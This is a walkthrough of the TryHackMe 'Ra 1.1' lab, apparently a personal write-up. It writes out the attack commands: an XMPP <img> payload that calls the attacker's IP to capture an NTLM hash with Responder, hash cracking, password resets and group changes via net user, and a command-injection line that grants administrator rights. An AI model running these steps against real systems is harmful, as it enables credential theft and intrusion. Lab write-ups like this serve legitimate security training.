TryHackMe - Ra 1.1 - Walkthrough
Reconnaissance
I started by adding the IP address to /etc/hosts as windcorp.thm.
Next, I began with an Nmap scan.

A large number of ports were open, so I performed a version scan to identify the running services.

└─$ sudo nmap -sV -p53,80,88,135,139,389,443,445,464,593,636,2179,3268-3269,3389,5222,5223,5229,5262,5263,5269-5270,5275-5276,5985,7070,7443,7777,9090-9091,9389,49668,49670-49673,49694,49928 -T4 ra.thmThe main services identified were Active Directory, Kerberos, and Openfire (an XMPP server).
Enumeration
Browsing to port 80, I found a Reset Password feature.

This required a username and a personal question.
Inspecting the page source revealed the following line:
<img src="img/lilyleAndSparky.jpg">This suggested a username and pet name: Sparky. I used these details to reset the password.

The password was successfully reset:

Using the new credentials, I enumerated the SMB server:

This confirmed that the credentials were valid. I accessed the Shared share:
└─$ smbclient //windcorp.thm/Shared -U lilyle
This allowed me to retrieve the first flag:

Inside the share, I found multiple binaries for Spark 2.8.3, an XMPP client vulnerable to CVE-2020-12772.
This vulnerability was discovered by the room authors.
I downloaded JDK 8 here and installed Spark 2.8.3.
I then followed this article and started a Responder server on my VPN interface:
└─$ sudo responder -I tun0Exploitation
On port 80, there was a list showing currently active users:

Since buse was online, I sent the following message while Responder was running:
<img src="http://192.168.169.133/image.jpg">Within seconds, I captured an NTLM hash:

I cracked the hash using Hashcat on my host machine:

Using evil-winrm, I obtained a shell as buse with the cracked credentials and retrieved the second flag:

While enumerating the system, I found a scripts directory in C:\ containing a PowerShell script named checkservers.ps1.
The script reads from C:\Users\brittanycr\hosts.txt.
Although I could not access this file as the current user, I was able to reset brittanycr's password and add her to the Remote Management Users group:
net user brittanycr Pass123! /domainnet localgroup "Remote Management Users" brittanycr /addI then logged in as brittanycr:
└─$ evil-winrm -i windcorp.thm -u brittanycr -p 'Pass123!'From this shell, I was able to read and modify hosts.txt:
cd C:\Users\brittanycrtype hosts.txtI inserted the following payload to exploit command injection in the scheduled script and add brittanycr to the Administrators group:
Set-Content C:\Users\brittanycr\hosts.txt '127.0.0.1; net localgroup administrators brittanycr /add'After about 45 seconds (the script execution interval), the privileges were escalated. I then connected via RDP:
└─$ xfreerdp /u:brittanycr /p:Pass123! /v:windcorp.thm /cert:ignoreFinally, I navigated to C:\Users\Administrator\Desktop and retrieved Flag3.txt:

That's it, we got the last flag. Thanks for reading! I hope you learned something new.